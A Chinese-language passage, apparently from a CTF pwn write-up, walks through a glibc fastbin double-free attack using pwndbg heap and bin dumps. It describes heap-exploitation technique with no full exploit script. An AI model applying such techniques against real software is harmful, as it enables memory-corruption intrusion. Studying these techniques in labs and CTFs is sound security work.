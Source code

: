 再malloc 0x60大小，字节内容就填个A，防止破坏fd指针。

pwndbg> heap

0xdfd000 FASTBIN {

prev_size = 0x0,

size = 0x71,

fd = 0x7f1ef5c6cb41,

bk = 0x7f1ef5c6cbf8,

fd_nextsize = 0x4141414141414141,

bk_nextsize = 0x4141414141414141,

}

0xdfd070 FASTBIN {

prev_size = 0x0,

size = 0x21,

fd = 0x7f1ef5c6cb78,

bk = 0x7f1ef5c6cb78,

fd_nextsize = 0x20,

bk_nextsize = 0x70,

}

而后我们就可以愉快的fast bin attack了，先malloc两个0x60的chunk，而后都free，形成double free，此时的fast bin：

pwndbg> bins

fastbins

0x20: 0x0

0x30: 0x0

0x40: 0x0

0x50: 0x0

0x60: 0x0

0x70: 0x104f100 —▸ 0x104f090 ◂— 0x104f100

0x80: 0x0

两个chunk的情况：

pwndbg> x/ 10xg 0x104f100

0x104f100: 0x00000000000000000x0000000000000071

0x104f110: 0x000000000104f090 0x0000000000000000

0x104f120: 0x00000000000000000x0000000000000000

